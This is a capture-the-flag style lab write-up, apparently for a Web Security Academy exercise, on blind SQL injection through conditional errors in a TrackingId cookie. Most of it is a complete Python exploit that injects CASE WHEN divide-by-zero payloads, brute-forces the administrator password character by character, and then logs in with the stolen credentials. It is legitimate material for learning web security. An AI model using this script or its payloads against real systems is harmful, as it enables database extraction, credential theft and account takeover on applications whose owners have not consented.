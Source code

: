 ```yaml
---
title: '12 SQLi Lab'
description: 'Blind SQL injection exploiting conditional errors to extract administrator password'
---
```



## Blind SQL injection with conditional errors

<div style="text-align: justify;">
  This lab demonstrates a blind SQL injection vulnerability using conditional errors. The application uses a tracking cookie, which is incorporated into SQL queries. The query does not return results directly, but triggers a custom error message when a condition is true (for example, divide-by-zero). By iteratively testing conditions, such as the existence of the `administrator` user or the length and characters of their password, it is possible to extract sensitive data without direct output.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to SQL injection.
- Append a single quote `'` to confirm SQL errors.
- Use `CASE WHEN` and divide-by-zero to trigger conditional errors.
- Test the existence of entries, determine password length, and extract each character sequentially.
- Use Burp Intruder with payloads for `a-z` and `0-9` to automate password extraction.
- Finally, log in with the extracted administrator credentials to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Route through Burp
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}

# Alphabet to brute force (lowercase + digits as per lab hint)
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

def send_payload(url, tracking_id, session_cookie, payload):
    """Send request with injected payload, return True if error (500) occurs."""
    cookies = {
        "TrackingId": tracking_id + payload,
        "session": session_cookie
    }
    res = requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=5)
    return res.status_code == 500  # 500 means condition is true

def extract_password(url, tracking_id, session_cookie, length=20):
    """Extract administrator password character by character."""
    password = ""

    for i in range(1, length + 1):  # Positions start at 1
        for c in CHARSET:
            payload = (
                f"'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{c}' "
                f"THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            )
            if send_payload(url, tracking_id, session_cookie, payload):
                password += c
                print(f"[+] Found char {i}: {c} -> {password}")
                break
    return password

def login_and_check(url, username, password):
    """Login with stolen creds and check if lab is solved."""
    session = requests.Session()
    login_url = url.rstrip("/") + "/login"

    # Step 1: Fetch CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login
    data = {"csrf": csrf_token, "username": username, "password": password}
    res = session.post(login_url, data=data, verify=False, proxies=proxies)

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in, but lab not solved yet.")
    else:
        print("[-] Login failed.")
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        sys.exit(1)

    url = sys.argv[1]

    # Step 1: Grab initial cookies
    r = requests.get(url, verify=False, proxies=proxies)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to retrieve cookies")
        sys.exit(1)

    print(f"[*] Using TrackingId={tracking_id}, session={session_cookie}")

    # Step 2: Extract password
    password = extract_password(url, tracking_id, session_cookie, length=20)
    print(f"[+] Extracted password: {password}")

    # Step 3: Login and check if solved
    login_and_check(url, "administrator", password)

if __name__ == "__main__":
    main()
```